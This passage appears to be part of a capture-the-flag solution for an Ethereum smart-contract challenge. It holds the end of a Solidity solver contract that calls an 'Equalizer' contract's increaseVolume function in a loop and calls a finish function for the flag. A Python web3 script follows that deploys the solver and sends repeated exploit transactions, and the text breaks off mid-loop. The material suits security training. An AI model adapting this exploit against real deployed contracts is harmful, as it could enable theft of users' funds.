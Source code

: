 ```solidity
    }
    function test2() public {
        uint[3] memory v;
        v[0] = 1;
        v[1] = 0;
        v[2] = 0;
        Equalizer eq1 = eq;
        for (uint i = 0; i < 300; i++) {
            eq1.increaseVolume{value: 1}(v);
        }
    }
    function getv() public view returns (uint) {
        return eq.getGlobalInfo();
    }
    function getflag() public {
        m.finish();
    }
}
```

```python
from web3 import Web3

config = {}
for x in open('config.txt').readlines():
    a, b = x.split(':', 1)
    config[a.strip()] = b.strip()

w3 = Web3(Web3.HTTPProvider(config['rpc endpoint']))
account = w3.eth.account.from_key(config['private key'])
nonce = w3.eth.get_transaction_count(account.address)

Solver = w3.eth.contract(abi=open('abi.json').read(), bytecode=open('bytecode.txt').read())
tx = Solver.constructor().build_transaction()
tx.pop('maxFeePerGas')
tx.pop('maxPriorityFeePerGas')
tx['from'] = account.address
tx['gasPrice'] = 10**6
tx['nonce'] = nonce
signed = w3.eth.account.sign_transaction(tx, config['private key'])
txh = w3.eth.send_raw_transaction(signed.rawTransaction)
receipt = w3.eth.get_transaction_receipt(txh)
solver = w3.eth.contract(address=receipt['contractAddress'], abi=open('abi.json').read())
print('solver', solver.address)

tx = solver.functions.start(config['setup contract']).build_transaction({'value': 10**9})
tx.pop('maxFeePerGas')
tx.pop('maxPriorityFeePerGas')
tx['from'] = account.address
tx['gasPrice'] = 10**6
tx['nonce'] = nonce + 1
signed = w3.eth.account.sign_transaction(tx, config['private key'])
txh = w3.eth.send_raw_transaction(signed.rawTransaction)
print(txh.hex())

for i in range(234):
    if i == 0:
        tx = solver.functions.test().build_transaction()
    else:
        tx = solver.functions.test2().build_transaction()
    tx.pop('maxFeePerGas')
    tx.pop('maxPriorityFeePerGas')
    tx['from'] = account.address
    tx['gasPrice'] = 10**6
```